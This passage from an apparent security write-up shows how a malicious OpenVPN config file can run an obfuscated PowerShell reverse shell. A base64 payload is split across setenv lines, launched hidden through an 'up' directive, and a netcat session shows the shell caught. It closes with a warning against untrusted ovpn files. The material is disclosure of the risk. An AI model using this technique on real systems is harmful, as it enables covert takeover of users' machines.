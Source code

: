 ```none
setenv k1 ‘AALAAkAG8AdQB0AC4ATABlAG4AZwB0AGgAKQANAAoAJABvAHUAdAAgAD0AIAAkAG4AdQBsAGwAOwAgACQAZABvAG4AZQAgAD0AIAAkAGYAYQBsAHMAZQA7ACAAJAB0AGUAcwB0AGkAbgBnACAAPQAgADAAOwANAAoAdwBoAGkAbABlACAAKAAtAG4AbwB0ACAAJABkAG8AbgBlACkAIAB7AA0ACgBpAGYAIAAoACQAYwBsA’
setenv l1 ‘GkAZQBuAHQALgBDAG8AbgBuAGUAYwB0AGUAZAAgAC0AbgBlACAAJAB0AHIAdQBlACkAIAB7AGMAbABlAGEAbgB1AHAAfQANAAoAJABwAG8AcwAgAD0AIAAwADsAIAAkAGkAIAA9ACAAMQANAAoAdwBoAGkAbABlACAAKAAoACQAaQAgAC0AZwB0ACAAMAApACAALQBhAG4AZAAgACgAJABwAG8AcwAgAC0AbAB0ACAAJABu’
setenv m1 ‘AGUAdAB3AG8AcgBrAGIAdQBmAGYAZQByAC4ATABlAG4AZwB0AGgAKQApACAAewANAAoAJAByAGUAYQBkACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABuAGUAdAB3AG8AcgBrAGIAdQBmAGYAZQByACwAJABwAG8AcwAsACQAbgBlAHQAdwBvAHIAawBiAHUAZgBmAGUAcgAuAEwAZQBuAGcAdABoACAALQA’
setenv n1 ‘gACQAcABvAHMAKQANAAoAJABwAG8AcwArAD0AJAByAGUAYQBkADsAIABpAGYAIAAoACQAcABvAHMAIAAtAGEAbgBkACAAKAAkAG4AZQB0AHcAbwByAGsAYgB1AGYAZgBlAHIAWwAwAC4ALgAkACgAJABwAG8AcwAtADEAKQBdACAALQBjAG8AbgB0AGEAaQBuAHMAIAAxADAAKQApACAAewBiAHIAZQBhAGsAfQB9AA0ACg’
setenv o1 ‘BpAGYAIAAoACQAcABvAHMAIAAtAGcAdAAgADAAKQAgAHsADQAKACQAcwB0AHIAaQBuAGcAIAA9ACAAJABlAG4AYwBvAGQAaQBuAGcALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAbgBlAHQAdwBvAHIAawBiAHUAZgBmAGUAcgAsADAALAAkAHAAbwBzACkADQAKACQAaQBuAHAAdQB0AHMAdAByAGUAYQBtAC4AdwByAGkAd’
setenv p1 ‘ABlACgAJABzAHQAcgBpAG4AZwApAA0ACgBzAHQAYQByAHQALQBzAGwAZQBlAHAAIAAxAA0ACgBpAGYAIAAoACQAcAByAG8AYwBlAHMAcwAuAEUAeABpAHQAQwBvAGQAZQAgAC0AbgBlACAAJABuAHUAbABsACkAIAB7AGMAbABlAGEAbgB1AHAAfQANAAoAZQBsAHMAZQAgAHsADQAKACQAbwB1AHQAIAA9ACAAJABlAG4A’
setenv q1 ‘YwBvAGQAaQBuAGcALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAbwB1AHQAcAB1AHQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAKQApAA0ACgB3AGgAaQBsAGUAKAAkAG8AdQB0AHAAdQB0AHMAdAByAGUAYQBtAC4AUABlAGUAawAoACkAIAAtAG4AZQAgAC0AMQApAHsADQAKACQAbwB1AHQAIAArAD0AIAAkAGUAbgBjAG8’
setenv r1 ‘AZABpAG4AZwAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABvAHUAdABwAHUAdABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAApACkAOwAgAGkAZgAgACgAJABvAHUAdAAgAC0AZQBxACAAJABzAHQAcgBpAG4AZwApACAAewAkAG8AdQB0ACAAPQAgACcAJwB9AH0ADQAKACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAG’
setenv s1 ‘UAbgBjAG8AZABpAG4AZwAuAEcAZQB0AEIAeQB0AGUAcwAoACQAbwB1AHQAKQAsADAALAAkAG8AdQB0AC4AbABlAG4AZwB0AGgAKQANAAoAJABvAHUAdAAgAD0AIAAkAG4AdQBsAGwADQAKACQAcwB0AHIAaQBuAGcAIAA9ACAAJABuAHUAbABsAH0AfQAgAGUAbABzAGUAIAB7AGMAbABlAGEAbgB1AHAAfQB9AA==’
up 'C:\\Windows\\System32\\cmd.exe /c (start %z1% -WindowStyle Hidden -EncodedCommand %a1%%b1%%c1%%d1%%e1%%f1%%g1%%h1%%i1%%j1%%k1%%l1%%m1%%n1%%o1%%p1%%q1%%r1%%s1% ) ||'
```

We can see the encoded script has been split over a setenv commands. At the very end, the script just runs all the environment variables together.

Result

```none
albinolobster@ubuntu:~$ nc -lvp 8181
Listening on [0.0.0.0] (family 0, port 8181)
Connection from [192.168.1.226] port 8181 [tcp/*] accepted (family 2, sport 51082)
Microsoft Windows [Version 10.0.17134.48]
© 2018 Microsoft Corporation. All rights reserved.
C:\Users\albinolobster\OpenVPN\config\albino_lobster>whoami
desktop-r5u6pvd\albinolobster
C:\Users\albinolobster\OpenVPN\config\albino_lobster>
```

Using untrusted ovpn files is dangerous. You are allowing a stranger to execute arbitrary commands on your computer. Some OpenVPN compatible clients like Viscosity and Ubuntu’s Network Manager GUI disable this behavior.

### HTTP
